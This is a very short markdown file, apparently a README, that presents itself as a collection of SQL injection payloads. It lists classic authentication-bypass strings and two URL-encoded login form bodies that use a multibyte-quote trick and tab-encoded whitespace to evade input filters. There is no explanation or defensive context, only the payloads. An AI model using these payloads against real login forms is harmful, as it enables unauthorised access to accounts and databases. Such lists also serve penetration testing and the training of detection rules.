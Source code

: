 # This will be a collection of SQl Injection Payloads and where to put them.

SQL payload
' OR 1='1
'OR'1'='1'#



username=%bf%27 or 1=1 #&password=
username='%09OR%091=1#&password=
